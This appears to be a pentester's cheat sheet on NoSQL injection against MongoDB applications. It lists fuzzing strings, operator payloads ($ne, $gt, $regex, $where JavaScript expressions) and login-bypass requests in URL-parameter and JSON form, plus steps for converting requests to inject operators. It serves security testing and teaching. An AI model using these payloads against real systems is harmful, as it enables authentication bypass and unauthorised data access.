 #### Burp Suite Extensions

- NoSQLiScanner

### Fuzzing Strings (non-encoded)

```
"                 // Break out of string
'                 // Single-quote escape
`                 // Template literal (backtick)
{                 // Object injection
}                 // Close object
[                 // Array injection
]                 // Close array
$ne: ""           // Not equal
$ne: null         // Not equal null
$gt: ""           // Greater than
$regex: ".*"      // Regex match anything
$where: "1 == 1"  // JavaScript expression eval
"; return true; // // JS logic injection
{$ne:null}        // Common object test
{"$gt":""}        // Injection via JSON
{$where:"this.password.length < 999"} // Runtime eval
admin' && '1'=='1 // Logic-based string test
') // Close paren string
" || 1==1         // Logic test
Foo               // Simple string (baseline)
$Foo              // Dollar-prefixed test
;                 // Statement delimiter

```

### PHP
```SQL
username[$ne]=admin&password[$ne]=sdfasdf
```

### Operator Injections

#### MongoDB Operators

```txt
$where - Matches documents that satisfy a JavaScript expression.

$ne - Matches all values that are not equal to a specified value.

$in - Matches all of the values specified in an array.

$regex - Selects documents where values match a specified regular expression. ex. {"username":{"$regex":"admin.*"} #this looks for anything that starts with admin
```

#### Submitting Queries

In JSON messages, you can insert query operators as nested objects.
```txt
{"username":"wiener"} becomes {"username":{"$ne":"invalid"}}.
```

Also if known inputs:
```txt
{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}
```

For URL-based inputs, you can insert query operators via URL parameters:
```txt
username=wiener becomes username[$ne]=invalid
```
If this doesn't work, you can try the following:
```txt
Convert the request method from GET to POST.
Change the Content-Type header to application/json.
Add JSON to the message body.
Inject query operators in the JSON.
```
